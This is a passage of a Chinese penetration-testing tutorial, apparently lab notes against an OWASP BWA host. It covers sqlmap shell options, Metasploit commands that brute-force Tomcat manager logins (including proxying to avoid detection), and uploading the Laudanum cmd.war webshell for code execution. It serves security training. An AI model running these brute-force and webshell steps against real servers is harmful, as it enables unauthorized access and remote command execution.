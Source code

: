 `--sqlmap-shell` 提示输入的交互式sqlmap shell

`--sql-shell` 提供SQL shell，可以执行SQL查询

`--os-shell` 提供服务器系统cmd的执行权限，成功的条件较为苛刻，暂未研究明白，参见[获取os-shell][https://zhuanlan.zhihu.com/p/58007573]。

## 6.9 使用Metasploit攻击Tomcat的密码

1. 在我们开始使用 Metasploit 之前,我们需要在 root 终端中开启数据库服务

   `service postgresql start`

2. 启动Metasploit控制台

   `msfconsole`

3. 加载模块

   `use auxiliary/scanner/http/tomcat_mgr_login`

4. 查看参数

   `show options`

5. 设置目标主机

   `set rhosts 192.168.2.167`

6. 设置线程数、爆破速度

   `set threads 5`, `set bruteforce_speed 3`

7. 执行攻击

   `run`

8. 其他参数

   BLANK_PASSWORDS : 对每个尝试的用户添加空密码测试。
   PASSWORD : 如果我们打算测试多个用户的单一密码,或者添加列表中没有包含的项目,这就很实用。
   PASS_FILE : 用于测试的密码列表。
   Proxies : 如果我们需要通过代理来访问我们的目标,或者避免检测,就用这个选项。
   RHOSTS : 单个主机,或多个(使用空格分隔),或者我们想要测试的主机列表文件
   ( /path/to/file/with/hosts )。
   RPORT : Tomcat 所使用的 TCP 端口。
   STOP_ON_SUCCESS : 发现有效密码之后停止尝试。
   TARGERURI : 主机中管理器应用的位置。
   USERNAME: 指定特殊的用户名来测试,它可以被单独测试,或者添加到定义在 USER_FILE 的列表中。
   USER_PASS_FILE :包含要被测试的“用户名 密码”组合的文件。USER_AS_PASS :将每个列表中的用户名作为密码尝试。

## 6.10 使用Tomcat管理器来执行代码

上一节使用Metasploit获得了Tomcat管理器的用户名/口令，可以登录管理器并上传新的应用

管理器地址：`http://192.168.2.167:8080/manager/html`，使用用户名/口令登录。

进入管理器后，找到`WAR file to deploy`并点击`Browse`按钮。

Kali在/usr/share/laudanum包含webshell，上传/usr/share/laudanum/jsp/cmd.war


[owaspbwa]: http://192.168.2.167